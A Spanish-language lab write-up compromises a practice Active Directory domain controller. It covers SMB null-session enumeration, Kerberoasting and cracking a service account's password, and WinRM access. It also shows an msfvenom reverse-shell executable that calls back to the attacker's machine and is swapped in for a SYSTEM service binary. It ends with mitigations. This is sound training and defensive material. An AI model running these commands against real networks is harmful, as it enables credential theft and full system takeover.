<h1 align="center">[Writeup] AD JUNIOR - Whoami-Labs</h1>

**Dificultad:** Fácil   
**Categoría:** Concept & Beginner / Active Directory / Kerberoasting / Service Binary Hijacking  
**Autor:** Dzykhed (Gilberto Wright)  
**Fecha** : 01-11-2026  
**Plataforma** : [Whoami-Labs](https://whoami-labs.com/)

--------------------------------------------------------------------------------

### Descripción
"Escenario de entrenamiento en ciberseguridad ofensiva enfocado en Concept & Beginner con dificultad Easy. Diseñado para evaluar metodología de enumeración, explotación de vectores de ataque y escalada de privilegios."



--------------------------------------------------------------------------------

### 1. Descubrimiento

#### 1.1 Escaneo de Red y Nmap:
El primer paso consistió en identificar los dispositivos activos dentro de nuestro segmento de red local (`10.0.2.0/24`) para localizar la dirección IP asignada a la máquina objetivo. Ejecutamos un escaneo de descubrimiento mediante `nmap` con barrido de Pings (`-sn`):

```bash
sudo nmap -sn -n 10.0.2.0/24
```



El resultado identificó la dirección IP `10.0.2.15` con una dirección MAC perteneciente a una interfaz virtual de Oracle VirtualBox (`08:00:27:07:6E:D8`), confirmando la presencia de nuestro objetivo.

Posteriormente, procedimos a realizar un escaneo exhaustivo sobre los 65,535 puertos TCP para determinar qué servicios se encontraban expuestos en el servidor objetivo:

```bash
sudo nmap -p- -sV -sC -n -Pn 10.0.2.15
```



*Puertos activos: 53 (DNS - Simple DNS Plus), 88 (Kerberos), 135 (MSRPC), 139 (NetBIOS-SSN), 389 (LDAP - Active Directory), 445 (Microsoft-DS / SMB), 464 (kpasswd5), 593 (RPC over HTTP), 636 (LDAPS), 3268 (LDAP Global Catalog), 3269 (LDAPS Global Catalog), 5985 (WinRM / HTTPAPI httpd 2.0), 9389 (AD Web Services).*

**Explicación del comando:**
- `-p-` → Escanea la totalidad de los 65,535 puertos TCP disponibles en el host.
- `-sV` → Determina la versión exacta del servicio que se ejecuta en cada puerto abierto.
- `-sC` → Ejecuta la lista de scripts de reconocimiento por defecto de Nmap (NSE).
- `-n` → Desactiva la resolución DNS inversa para acelerar la velocidad del escaneo.
- `-Pn` → Omite el descubrimiento de host por Ping y asume que el host se encuentra encendido.

La presencia simultánea de Kerberos (puerto 88), LDAP (puertos 389/3268) y SMB (puerto 445) confirmó de forma concluyente que la máquina objetivo opera como Controlador de Dominio (Domain Controller) para el dominio `helios.local` bajo el nombre de host `WIN-CFIU5AU7L2D`.

#### 1.2 Enumeración de Servicios (SMB y Null Session):
Con los servicios principales identificados, la primera vía de investigación se centró en evaluar si el servicio SMB (puerto 445) permitía conexiones anónimas o sesiones nulas (*Null Session*). Para corroborarlo, empleamos la herramienta `netexec`:

```bash
netexec smb 10.0.2.15 -u '' -p '' --shares
```



El resultado reveló que la autenticación nula se encontraba habilitada (`Null Auth: True`) y que el recurso compartido no estándar `IT_Onboarding` permitía permisos de lectura pública (`READ`).

Aprovechando este acceso sin credenciales, nos conectamos al recurso compartido mediante `smbclient` para examinar los archivos disponibles:

```bash
smbclient //10.0.2.15/IT_Onboarding -N
```



Dentro de la carpeta remota localizamos un archivo de texto denominado `notas_onboarding.txt`, el cual descargamos a nuestra máquina atacante empleando el comando `get`:

```bash
smb: \> ls
smb: \> get notas_onboarding.txt
smb: \> exit
```

Al inspeccionar el contenido del archivo con `cat`, obtuvimos información crítica sobre la infraestructura de la empresa:

```bash
cat notas_onboarding.txt
```



**Explicación del comando:**
- `netexec smb 10.0.2.15 -u '' -p '' --shares` → Intenta autenticarse contra la máquina mediante usuario y contraseña vacíos (`Null Session`) y lista los recursos compartidos expuestos con sus respectivos permisos de acceso.
- `smbclient //10.0.2.15/IT_Onboarding -N` → Se conecta de forma anónima (`-N` sin contraseña) al recurso compartido `IT_Onboarding`.

El memorándum interno redactado por el administrador `dclark` reveló tres datos fundamentales de auditoría:
1. Las tareas automatizadas de respaldo se ejecutan centralizadamente mediante la cuenta de servicio del dominio `svc_backup`.
2. El agente de respaldo `Enterprise Backup Agent` está instalado localmente en el servidor principal.
3. Se generó una cuenta de red temporal para el usuario de recien ingreso Ryan Smith (`rsmith`) con la contraseña inicial `Welcome2025!`.

--------------------------------------------------------------------------------

### 2. Explotación / Acceso Inicial

#### 2.1 Reconocimiento y Pruebas (Enumeración de AD y Kerberoasting):
Con las credenciales válidas del usuario `rsmith` (`rsmith:Welcome2025!`), procedimos a enumerar la lista de usuarios pertenecientes al dominio Active Directory `helios.local` utilizando `netexec`:

```bash
netexec smb 10.0.2.15 -u 'rsmith' -p 'Welcome2025!' -d helios.local --users
```



La ejecución listó exitosamente los 8 usuarios existentes en el dominio: `Administrator`, `Guest`, `krbtgt`, `rsmith`, `mgarcia`, `jdoe`, `dclark` y `svc_backup`.

Considerando la información obtenida en la nota sobre `svc_backup`, sospechamos que esta cuenta poseía un SPN (*Service Principal Name*) registrado, lo que la convertía en un candidato directo para un ataque de **Kerberoasting**.

Para verificar la presencia de SPNs y solicitar el ticket de servicio (TGS Ticket) correspondiente, ejecutamos `impacket-GetUserSPNs` empleando las credenciales de `rsmith`:

```bash
skewrun 10.0.2.15 -- impacket-GetUserSPNs 'helios.local/rsmith:Welcome2025!' -dc-ip 10.0.2.15 -request -outputfile krb.txt
```



El comando confirmó que la cuenta `svc_backup` tiene vinculados los SPNs `backup/helios.local` y `backup/HELIOS-DC01.helios.local`. La herramienta extrajo el ticket de servicio en formato cifrado Kerberos 5 TGS (etype 23) y lo almacenó en el archivo local `krb.txt`.

Examinamos la estructura del hash extraído mediante el comando `cat`:

```bash
cat krb.txt
```



Una vez capturado el hash Kerberos `$krb5tgs$23$*svc_backup...`, procedimos a realizar un ataque de descifrado offline mediante fuerza bruta/diccionario utilizando **John the Ripper** junto al diccionario `rockyou.txt`:

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt --format=krb5tgs krb.txt
```



Posteriormente, verificamos el resultado del descifrado ejecutando `john --show`:

```bash
john --show --format=krb5tgs krb.txt
```



**Explicación del comando:**
- `impacket-GetUserSPNs -request -dc-ip 10.0.2.15` → Consulta al Controlador de Dominio las cuentas de usuario que tienen SPNs asociados y solicita tickets TGS cifrados con la clave derivada de la contraseña de dichas cuentas.
- `john --wordlist=... --format=krb5tgs krb.txt` → Ejecuta un ataque de fuerza bruta en modo offline sobre el archivo de hash en formato Kerberos 5 TGS utilizando el diccionario indicado.

En cuestión de segundos, **John the Ripper** descifró el hash exitosamente, revelando la contraseña en texto plano de la cuenta de servicio `svc_backup`: **`Master2010`**.

#### 2.2 Explotación y Obtención de Acceso (Foothold / User Flag):
Con el par de credenciales autenticadas `svc_backup:Master2010`, evaluamos si la cuenta disponía de permisos para autenticarse de forma remota a través del servicio WinRM (puerto 5985):

```bash
netexec winrm 10.0.2.15 -u svc_backup -p 'Master2010' -d helios.local
```



`netexec` confirmó el acceso remoto indicando la marca **`(Pwn3d!)`**. A continuación, establecimos una consola remota interactiva de PowerShell mediante `evil-winrm`:

```bash
evil-winrm -i 10.0.2.15 -u svc_backup -p 'Master2010'
```

Una vez iniciada la sesión interactiva, navegamos hacia el directorio del escritorio del usuario (`C:\Users\svc_backup\Desktop`) para recuperar la primera bandera de acceso no privilegiado:

```bash
cd C:\Users\svc_backup\Desktop
type user.txt
```



**Explicación del comando:**
- `evil-winrm -i 10.0.2.15 -u ... -p ...` → Abre una consola de gestión remota de PowerShell en el puerto 5985 (WinRM) utilizando credenciales válidas de dominio.

La primera bandera (*user.txt*) fue obtenida satisfactoriamente:
```text
flag{k3rb3r04st1ng_svc_b4ckup_pwn3d}
```

--------------------------------------------------------------------------------

### 3. Enumeración para Escalada de Privilegios

#### 3.1 Análisis Local (Permisos ACLs y Service Hijacking):
Tras obtener acceso inicial a la máquina como `helios\svc_backup`, iniciamos la enumeración local del sistema para identificar posibles vectores de escalada de privilegios hacia el administrador local o `NT AUTHORITY\SYSTEM`.

En primer lugar, revisamos nuestra identidad y los privilegios asignados al token de usuario mediante los comandos `whoami` y `whoami /priv`:

```bash
whoami
whoami /priv
```



Revisamos también la pertenencia a grupos con `whoami /groups` y los detalles del usuario con `net user svc_backup`:

```bash
whoami /groups
net user svc_backup
```




Aunque la cuenta pertenecía al grupo `Remote Management Users`, no se observaron privilegios de token inusuales (como `SeImpersonatePrivilege`).

Recordando la nota recuperada durante la fase de descubrimiento SMB, en la cual se indicaba que el agente `Enterprise Backup Agent` se ejecutaba localmente en el servidor, decidimos inspeccionar el directorio de instalación de dicha aplicación en `C:\Program Files\Enterprise Backup Agent`.

Navegamos a la carpeta y listamos los permisos de acceso (*ACLs*) sobre el directorio y su contenido utilizando la herramienta `icacls`:

```bash
cd "C:\Program Files\Enterprise Backup Agent"
tree /f
icacls "C:\Program Files\Enterprise Backup Agent"
```



Posteriormente, verificamos específicamente los permisos asignados sobre el archivo ejecutable del servicio `Backup Service.exe`:

```bash
icacls "C:\Program Files\Enterprise Backup Agent\Backup Service.exe"
```



**Explicación del comando:**
- `icacls "ruta"` → Muestra las Listas de Control de Acceso (ACLs) y permisos otorgados a los diferentes usuarios y grupos del sistema sobre la carpeta o binario especificado.

El análisis de seguridad reveló una vulnerabilidad crítica de configuración de permisos:
- La cuenta de dominio `HELIOS\svc_backup` tiene otorgado el permiso **`(I)(F)` (Control Total)** sobre el binario `Backup Service.exe`.
- La carpeta contenedora `Enterprise Backup Agent` otorga el permiso **`(OI)(CI)(F)` (Control Total)** al usuario `svc_backup`.

Dado que el servicio de Windows `EnterpriseBackup` corre bajo la cuenta de sistema `NT AUTHORITY\SYSTEM` y apunta al ejecutable `C:\Program Files\Enterprise Backup Agent\Backup Service.exe`, el permiso de escritura/modificación total sobre el binario nos permite llevar a cabo un ataque de **Service Binary Hijacking** (reemplazo del ejecutable legítimo por un binario malicioso).

#### 3.2 Explotación y Acceso a Root / SYSTEM:
Para explotar la mala configuración del servicio, nos trasladamos a nuestra máquina atacante Kali Linux (`10.0.2.4`) y generamos un ejecutable malicioso de Reverse Shell utilizando `msfvenom`:

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.0.2.4 LPORT=4444 -f exe -o ReverseShell.exe
```



De regreso en nuestra consola de `evil-winrm`, subimos el archivo `ReverseShell.exe` al directorio temporal `C:\temp\` de la máquina objetivo:

```bash
upload /home/kali/ReverseShell.exe C:/temp/ReverseShell.exe
```



A continuación, procedimos a detener el servicio legítimo `EnterpriseBackup` e hicímos una copia de respaldo del binario ejecutable original:

```bash
Stop-Service -Name "EnterpriseBackup" -Force
Copy-Item "C:\Program Files\Enterprise Backup Agent\Backup Service.exe" "C:\temp\Backup Service.exe.bak"
```



Con el servicio detenido, sobrescribimos forzadamente el ejecutable del servicio `Backup Service.exe` con nuestra reverse shell maliciosa:

```bash
Copy-Item "C:\temp\ReverseShell.exe" "C:\Program Files\Enterprise Backup Agent\Backup Service.exe" -Force
dir "C:\Program Files\Enterprise Backup Agent\"
```

Antes de iniciar el servicio, preparamos un oyente en escucha Netcat en la máquina atacante Kali Linux:

```bash
nc -lvnp 4444
```

Finalmente, iniciamos el servicio manipulado desde la consola de Evil-WinRM:

```bash
Start-Service -Name "EnterpriseBackup"
```



**Explicación del comando:**
- `msfvenom -p windows/x64/shell_reverse_tcp ... -f exe` → Compila un ejecutable standalone de 64 bits para Windows que inicia una conexión de consola de comandos hacia la IP atacante (`LHOST`) en el puerto especificado (`LPORT`).
- `Stop-Service` / `Start-Service` → Detienen e inician servicios del sistema de Windows mediante PowerShell.
- `nc -lvnp 4444` → Abre un oyente de sockets TCP en el puerto 4444 a la espera de la conexión entrante.

Al ejecutarse el servicio como `NT AUTHORITY\SYSTEM`, se desencadenó el payload e inmediatamente recibimos una consola de comandos con privilegios máximos en nuestro oyente de Netcat:



Validamos nuestra identidad dentro de la nueva shell mediante `whoami` y leímos el archivo de la bandera final ubicado en el escritorio del Administrador (`C:\Users\Administrator\Desktop\flag.txt`):

```cmd
C:\Windows\system32>whoami
nt authority\system

C:\Windows\system32>dir C:\Users\Administrator\Desktop\
C:\Windows\system32>type C:\Users\Administrator\Desktop\flag.txt
```

La bandera final (*root flag*) obtenida fue:
```text
flag{h3l10s_4ct1v3_d1r3ct0ry_d0m41n_pwn3d}
```

--------------------------------------------------------------------------------

### 4. Mitigaciones

* **Deshabilitar la Autenticación Nula en Recursos SMB (Null Sessions):** Configurar la directiva de grupo (*Group Policy Object*) para restringir el acceso anónimo a los recursos compartidos y a la enumeración de tuberías con nombre en SMB (`Network access: Restrict anonymous access to Named Pipes and Shares`).
* **Fortalecimiento de Cuentas de Servicio y Protección contra Kerberoasting:** 
  - Asignar contraseñas de alta complejidad y entropía (mínimo 25-30 caracteres aleatorios) a las cuentas de usuario que requieran registrar un SPN (*Service Principal Name*).
  - Migrar las cuentas de servicio tradicionales hacia Cuentas de Servicio Administradas por Grupo (**gMSA** - *Group Managed Service Accounts*), las cuales gestionan automáticamente la rotación de contraseñas complejas sin intervención humana.
* **Principio de mínimo privilegio:** Aplicar el principio de mínimo privilegio sobre el sistema de archivos restringiendo las Listas de Control de Acceso (*ACLs*) en las carpetas de aplicaciones y servicios dentro de `C:\Program Files`. Garantizar que solo las cuentas `NT AUTHORITY\SYSTEM` y `Administrators` posean permisos de modificación `(M)` o control total `(F)`, eliminando permisos de escritura excesivos otorgados a grupos no privilegiados como `Domain Users` o cuentas de servicio de bajo nivel.
* **Limpieza de Credenciales en Archivos de Texto Plano:** Implementar políticas de auditoría continua de información sensible en recursos compartidos para evitar la presencia de memorándums, scripts o archivos de onboarding (`notas_onboarding.txt`) que contengan contraseñas temporales en texto plano.
